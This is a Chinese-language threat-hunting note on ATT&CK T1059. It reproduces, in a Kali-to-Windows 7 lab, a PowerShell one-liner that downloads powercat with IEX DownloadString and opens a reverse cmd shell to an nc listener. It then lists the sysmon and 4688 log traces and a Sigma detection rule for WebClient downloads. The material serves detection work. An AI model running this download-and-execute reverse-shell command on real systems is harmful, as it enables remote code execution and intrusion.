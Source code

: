 # T1059-win-基于白名单Powershell.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

您可以使用PowerShell.exe从另一个工具（例如Cmd.exe）的命令行启动PowerShell会话，也可以在PowerShell命令行启动新会话。从此处阅读Microsoft Windows官方网站上的更多信息。

补充说明：在高版本powershell（V5以上含V5）中，可以通过配置策略，对进程命令行参数进行记录，具体策略可参考[powershell事件](https://github.com/12306Bro/Hunting-guide/blob/master/Powershell-id.md)。同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload

下载我们本次测试中要用到的powercat，下载地址：<https://github.com/besimorhino/powercat>

#### 开启小型http服务

powercat目录下执行以下命令：

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

#### 执行监听

```bash
nc -lvp 1234
```

#### 靶机执行payload

```cmd
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"
```

#### 反弹shell

```bash
root@12306Br0:/# nc -lvp 1234
listening on [any] 1234 ...
192.168.126.149: inverse host lookup failed: Unknown host
connect to [192.168.126.146] from (UNKNOWN) [192.168.126.149] 49339
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell  -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"

#win7安全日志
EventID: 4688
进程信息:
新进程 ID: 0x330
新进程名: C:\Windows\System32\cmd.exe
令牌提升类型: TokenElevationTypeLimited (3)

EventID: 4688
进程信息:
新进程 ID: 0xa44
新进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

#Powershell V5(含V5以上)配置审核策略，可以达到记录命令行参数的效果。通过命令行参数进行监控分析。当然也可以采用配置windows server 2008(不含2008)以上审核进程创建策略，同样也可以对命令行参数进行记录，最后达到监控效果。
```

## 检测规则/思路

### sigma规则

```yml
title: PowerShell通过url进行下载
status: experimental
description: 检测在命令行字符串中包含下载命令的Powershell进程
tags:
    - attack.t1086
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: '*\powershell.exe'
        CommandLine:
            - '*new-object system.net.webclient).downloadstring(*'
            - '*new-object system.net.webclient).downloadfile(*'
            - '*new-object net.webclient).downloadstring(*'
            - '*new-object net.webclient).downloadfile(*'
    condition: selection
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - unknown
level: medium

```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 相关TIP
[[T1059-001-win-检测PowerShell2.0版本执行]]
[[T1059-001-win-检测PowerShell下载文件]]
[[T1059-004-linux-脚本]]
[[T1059-win-基于白名单Certutil.exe执行Payload]]
[[T1059-win-基于白名单Ftp.exe执行Payload]]
[[T1059-win-进程生成CMD]]

## 参考推荐

MITRE-ATT&CK-T1059-001

<https://attack.mitre.org/techniques/T1059/001/>

